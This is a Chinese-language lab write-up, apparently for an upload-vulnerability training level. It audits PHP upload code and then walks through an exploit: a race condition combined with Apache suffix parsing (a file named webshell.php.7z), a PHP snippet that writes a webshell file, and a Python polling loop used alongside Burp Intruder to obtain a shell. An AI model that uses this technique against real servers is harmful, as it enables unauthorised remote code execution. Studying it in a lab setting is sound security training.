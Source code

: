 
# 审计源码
```php
//index.php
$is_upload = false;
$msg = null;
if (isset($_POST['submit']))
{
    require_once("./myupload.php");
    $imgFileName =time();
    $u = new MyUpload($_FILES['upload_file']['name'], $_FILES['upload_file']['tmp_name'], $_FILES['upload_file']['size'],$imgFileName);
    $status_code = $u->upload(UPLOAD_PATH);
    switch ($status_code) {
        case 1:
            $is_upload = true;
            $img_path = $u->cls_upload_dir . $u->cls_file_rename_to;
            break;
        case 2:
            $msg = '文件已经被上传，但没有重命名。';
            break; 
        case -1:
            $msg = '这个文件不能上传到服务器的临时文件存储目录。';
            break; 
        case -2:
            $msg = '上传失败，上传目录不可写。';
            break; 
        case -3:
            $msg = '上传失败，无法上传该类型文件。';
            break; 
        case -4:
            $msg = '上传失败，上传的文件过大。';
            break; 
        case -5:
            $msg = '上传失败，服务器已经存在相同名称文件。';
            break; 
        case -6:
            $msg = '文件无法上传，文件不能复制到目标目录。';
            break;      
        default:
            $msg = '未知错误！';
            break;
    }
}

//myupload.php
class MyUpload{
......
......
...... 
  var $cls_arr_ext_accepted = array(
      ".doc", ".xls", ".txt", ".pdf", ".gif", ".jpg", ".zip", ".rar", ".7z",".ppt",
      ".html", ".xml", ".tiff", ".jpeg", ".png" );

......
......
......  
  /** upload()
   **
   ** Method to upload the file.
   ** This is the only method to call outside the class.
   ** @para String name of directory we upload to
   ** @returns void
  **/
  function upload( $dir ){
    
    $ret = $this->isUploadedFile();
    
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->setDir( $dir );
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->checkExtension();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->checkSize();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );    
    }
    
    // if flag to check if the file exists is set to 1
    
    if( $this->cls_file_exists == 1 ){
      
      $ret = $this->checkFileExists();
      if( $ret != 1 ){
        return $this->resultUpload( $ret );    
      }
    }

    // if we are here, we are ready to move the file to destination

    $ret = $this->move();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );    
    }

    // check if we need to rename the file

    if( $this->cls_rename_file == 1 ){
      $ret = $this->renameFile();
      if( $ret != 1 ){
        return $this->resultUpload( $ret );    
      }
    }
    
    // if we are here, everything worked as planned :)

    return $this->resultUpload( "SUCCESS" );
  
  }
......
......
...... 
};
```

	我们可以看到这里定义了一个名为`MyUpload`的类，类中使用array()函数创建了一个包含`".doc", ".xls", ".txt", ".pdf", ".gif", ".jpg", ".zip", ".rar", ".7z",".ppt",".html", ".xml", ".tiff", ".jpeg", ".png"`的数组，然后定义了一个名为`upload()`的函数，`upload()`函数中使用`isUploadedFile()`函数判断指定的文件是否是通过 HTTP POST 上传的，若不是则返回$ret对应的数值，若是则继续依次判断文件是否存在、文件名是否可写、检查后缀（白名单）、检查文件大小、检查临时文件存在、保存到临时目录里、然后再重命名。


## 函数说明
```
array
array() 函数用于创建数组。
在 PHP 中，有三种类型的数组：
数值数组 - 带有数字 ID 键的数组
关联数组 - 带有指定的键的数组，每个键关联一个值
多维数组 - 包含一个或多个数组的数组

语法
数值数组的语法：
array(value1,value2,value3,etc.);
关联数组的语法：
array(key=>value,key=>value,key=>value,etc.);
key	规定键名（数值或字符串）。
value	规定键值。
```

```
is_uploaded_file() 函数判断指定的文件是否是通过 HTTP POST 上传的。如果 file 所给出的文件是通过 HTTP POST 上传的则返回 TRUE。

语法
is_uploaded_file(file)
file	必需。规定要检查的文件。
```


# 漏洞利用

## 思路
	通过代码我们看到对上传的文件做了很死的限制只能是白名单中类型的文件，不过我们发现代码流程是将文件上传之后再将文件进行更改名称，那么我们就可以利用在对文件名进行更改之前的这个间隙来实现目的，可以将Pass-18中能够生成木马文件的脚本插入图片文件中，然后利用条件竞争来生成shell.php

	apache对文件后缀名的识别是从右向左进行匹配的，以单个.作为分隔符。当遇到未知的文件后缀名时，会继续向左匹配，直到遇到可以识别的后缀名为止。利用apache的这一特性我们可以将文件名命为XXX.php，将文件后缀命名为apache无法解析的后缀如：.7z，合起来也就是XXX.php.7z，当将该文件上传后我们访问该文件，apache无法解析.7z就会将其当作php文件来解析，就可以运行我们插入的恶意代码来生成shell.php。


## 利用
编写一段能够生成木马文件的脚本，将其插入图片文件的末尾并将图片文件命名为webshell.php.7z
```php
<?php
    fputs(fopen('shell.php','w'),'此处写入木马代码');
?>
```
![image-20210608111036380.png](./assets/1656466939491-8dcf9e3b-697e-4fc9-9508-a6651326814f.png)

利用python的requests模块构造条件竞争（这里的uploadwebshell.php.7z是经过多次失败发现其将上传文件名前加了upload得到的）
```python
import requests
while True:
    html = requests.get("http://www.web.com/upload/uploadwebshell.php.7z")
    if html.status_code == 200:
        print("Succsee")
    else:
        print("NO")
```

将webshell.php.7z上传并使用burpsuite抓包，发送到intruder模块中，设置为循环发送（注意有效负载位置清除）<br />![image-20210608162156368.png](./assets/1656466947930-850bc328-6307-4c42-a07b-2abe6b523977.png)

![image-20210608162114283.png](./assets/1656466952605-c2e9d565-291c-4693-aba5-1aceb116d586.png)

先启动python脚本，然后在burpsuite中发送数据包<br />![image-20210608162225026.png](./assets/1656466957468-fae7fe26-51eb-4c22-bb52-ce682ab7b67a.png)

![image-20210608162336036.png](./assets/1656466961934-a0631a9c-5098-41bc-82fb-bd7309931930.png)

为了保险起见当多次出现Success时停止<br />![image-20210608162353312.png](./assets/1656466967249-a8b0a81a-c71b-4885-a3d5-0a65a0181ae2.png)

使用蚁剑连接shell.php<br />![image-20210608154021437.png](./assets/1656466971306-b618aca2-56dd-406d-a50b-05fa3e795666.png)

成功得到shell<br />![image-20210608154037465.png](./assets/1656466977379-60b56358-a8cf-428b-b4fb-24994938d251.png)

![image-20210608154050782.png](./assets/1656466981108-6d48c416-e75b-4473-826a-37b97f05be02.png)
